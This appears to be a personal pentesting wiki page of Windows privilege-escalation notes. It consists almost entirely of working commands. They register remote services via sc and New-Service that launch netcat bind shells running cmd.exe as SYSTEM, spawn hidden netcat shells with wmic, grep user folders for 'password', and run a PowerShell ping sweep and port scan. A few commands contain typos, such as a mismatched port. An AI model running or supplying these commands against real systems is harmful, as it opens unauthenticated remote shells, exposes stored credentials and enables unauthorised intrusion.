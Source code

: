 ```yaml
---
title: Privilege Escalation
description: 
published: true
date: 2021-08-14T21:28:47.106Z
tags: security, pentesting, privesc
editor: markdown
dateCreated: 2021-08-14T21:28:47.106Z
---
```


# Privilege Escalation
# Services

Sc \\hostname/ip create ncservice binpath= "c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe"           ///IMPORTANT space after "binpath= "

Sc \\hostname/ip query ncservice
 => Service is stopped

 
Make more persistent
Sc \\hostname create ncservice2 binpath= "cmd.exe /k c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe"

sc \\w10 start ncservice2      //will then crash after 30sec but doesnt matter
Nc 127.0.0.1 222
==> run with SYSTEM privileges via the servic created

Victim monitor for port 2222 connections:
Netstat nao 1 | find ":2222"


## WMIC 

wmic process call create "c:\tools\nc\nc.exe -l -p 4444 -e cmd.exe"   ==> Creates cmd popup for user, bad! Use -d option


wmic process call create "c:\tools\nc\nc.exe -d -l -p 4444 -e cmd.exe"

Nc 127.0.0.1 4444


# Network
**Search for a pattern "password" in a directory**
ls -r c:\users | % {sls -path $_ -pattern password} 2>$null

 
**Setup a new service which will start cmd with netcat started:**
New-Service -Name "ncservice" -BinaryPathName "cmd.exe /k C:\tools\nc\nc.exe -l -p 3333 -e cmd.exe" -StartupType manual
Start-Service -Name ncservice
Sc.exe delete ncservice


**Ping sweet with powershell:**
1..255 | % {ping -n 1 -w 100 10.10.10.$_ | sls ttl}

 
**Portscan:**
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_  is open"} 2>$null

